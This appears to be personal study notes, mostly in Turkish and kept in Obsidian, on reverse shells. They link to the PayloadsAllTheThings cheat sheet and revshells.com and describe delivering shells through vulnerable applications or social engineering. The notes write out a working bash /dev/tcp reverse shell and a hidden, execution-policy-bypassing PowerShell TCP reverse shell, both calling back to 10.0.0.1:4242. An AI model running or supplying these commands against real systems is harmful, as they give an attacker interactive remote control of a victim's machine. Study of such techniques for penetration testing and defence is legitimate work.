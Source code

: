 ![[Pasted image 20240325224141.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
![[Pasted image 20240325224334.png]]
## bU MD DOSYASI OLDUĞU İÇİN HEMEN OBSIDIAN ICINE CEKTIK

---
### Mantık nasıl çalışacak aşağıda yazılı olan reverse shell teknolojisine göre seçilip ya hedef sistemin cmd'sinde veya powershell'inde çalıştırılması sağlanacak yada zaafiyetli bir uygulama içine gömülerek tetiklenmesi sağlanabilir veya social engineering yapılabilir.


---
![[Pasted image 20240325224931.png]]
### bash -i >& /dev/tcp/10.0.0.1/4242 0>&1


![[Pasted image 20240325233938.png]]
### bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

![[Pasted image 20240325233918.png]]

----

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Örneğin bu koda powershell de çalıştırılabilirse reverseshell alınabilir.

![[Pasted image 20240325234330.png]]

---
### revshells.com
### https://www.revshells.com/

![[Pasted image 20240325235204.png]]
